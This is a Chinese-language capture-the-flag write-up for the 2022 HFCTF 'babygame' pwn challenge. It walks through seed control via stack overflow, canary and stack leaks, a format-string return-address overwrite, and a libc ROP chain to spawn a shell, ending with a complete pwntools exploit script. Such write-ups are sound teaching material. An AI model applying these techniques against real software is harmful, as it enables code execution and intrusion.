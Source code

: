 ```yaml
---
layout: post
title: "2022HFCTF pwn babygame wp"
date:   2022-3-24
tags: [ctf_wp]
comments: true
author: wsxk
---
```


这道题拓宽了我对fmt的理解，算是比较有意思的题目

### 保护机制

首先查看一下这道程序的保护机制有哪些

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/2.png)

保护全开了

### IDA分析

先把文件拖入IDA中进行静态分析

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/1.png)

清晰明了，首先在buf处会产生栈溢出

关键在sub_1305函数中，进去看看

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/3.png)

看到rock scissor paper ，这是石头剪刀布的游戏，而且出题人很黑心，要我们连输100局才能进入sub_13f7函数。

接下来看一下sub_13f7函数是什么

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/4.png)

哦吼，是一个格式化字符串漏洞

现在程序的流程很清楚了

1、输入名称（存在栈溢出）

2、用当前时间作为种子，用rand函数产生随机数作为石头剪刀布的操作

3、当输100次后，进入fmt漏洞的触发点

### 解决方案

首先看作为种子的临时变量v5

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/5.png)

它就在buf的正下方

这意味着我们可以利用栈溢出覆盖v5，换句话说，我们可以控制这个程序伪随机数的种子（输100次的问题就能解决了）

接下来是v7，这是canary的位置，注意 系统canary的末字节为'\x00'，目的是为了能够截断字符串。

在这里我们可以多覆盖一个字节，将canary的末字节覆盖为换行符，这样以来，系统在printf buf的时候，会打印出canary的值（虽然没什么用就是了）

最主要的不是canary，而是我们在调试时候发现的suprise。

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/6.png)

注意看，上图中 0x7ffc61e482f8的值就是canary（低字节是0a，我们覆盖后的），然后它的下面的值，是0x7ffc61e48400,这是栈上的地址！！ 也就是说，我们可以拿到栈的基址。 这里有一个要注意的点，因为0x7ffc61e48400末字节为00，所以打印不出来，这种情况下我们可以多试几次（因为栈基址会变化），肯定会遇到不为00的情况

现在的问题来了，现在这个fmt字符串怎么用？这才是难点，因为只有一次机会，弄完这回后，程序就会返回了。这时候的办法是用fmt修改地址，让它重新回到main函数中

现在再一次进行调试，这时候调试到输入fmt的时候

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/7.png)

注意看 0x7ffe5ac885c8处的值，他是printf的位置，换句话说，打印出它就能知道libc基址了！！！调试总是能给人带来惊喜啊。

这是64位程序，printf的前六个参数在寄存器中，0x7ffe5ac885c8相当于printf的第十个参数，也就是 我们输入的第九个参数， 即是 格式化字符串中 %9$lx的位置

那么现在明确了，fmt中首先要有%9$lx来泄露基址，可以看到它是0x7f303d474d6f，在用%lx打印时会打印出12个字节。

现在还剩下最后一个问题，用fmt漏洞修改程序的返回地址。这里跟踪printf函数，看看它的返回地址所在的栈位置在哪里

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/8.png)

用我们得到的栈基址减去它，能得到偏移量（偏移量是固定的

现在知道fmt覆盖内存的地址了 现在看看能改到哪里

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/9.png)

printf正常返回得到的地址在这里


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-24-2022HFCTF_pwn_babygame/10.png)

我们惊喜的发现，main函数就在它下面，修改最后一个字节就可以搞定了（返回main函数

返回main函数后，用read函数会让我们在读一次

这时候因为现在的栈出了点问题，调试能发现应该发送什么来实现shell

这时候找libc里面的system等等和ROP链，大家应该都很熟悉了


### exp

    from pwn import *

    from ctypes import CDLL



    context.log_level = 'debug'



    io = process('./babygame',env={'LD_PRELOAD': './libc-2.31.so'})

    libc = CDLL('libc.so.6')

    libc.srand(0x31313131)

    libc2 = ELF('./libc-2.31.so')

    operate = [1,2,0]



    io.recvuntil("Please input your name:")

    payload = b'a'*256 + p64(0x3131313131313131)

    #gdb.attach(io)

    io.sendline(payload)

    io.recvuntil(b"111\n")

    canary = io.recv(7).rjust(8,b'\x00')

    log.success("canary:"+hex(u64(canary)))

    stack_base = io.recv(6).ljust(8,b'\x00')

    log.success("stack_base:"+hex(u64(stack_base)))

    stack_base = u64(stack_base)



    for i in range(100):

        io.recvuntil('round')

        choose = libc.rand()%3

        io.sendline(str(operate[choose]))



    target =  stack_base -824 

    #fmt = 'aaaaaa'

    fmt = b'%9$lx%170c%8$hhn' + p64(target)

    #p.send(fmt)

    # offset = 6

    gdb.attach(io)

    io.send(fmt)



    #gdb.attach(io)

    io.recvuntil(b'Good luck to you.\n')



    libc_base = int(io.recv(12),16) - 0x61d6f

    system = libc_base + libc2.sym['system']

    binsh = libc_base + next(libc2.search(b'/bin/sh'))

    print("libc")

    print(hex(libc_base))

    pop_rdi = 0x23b72

    ret = 0x22679 

    ropchain = p64(0xdeadbeef) + p64(ret+libc_base) + p64(pop_rdi+libc_base) + p64(binsh) + p64(system)



    io.sendline(ropchain)

    io.interactive()




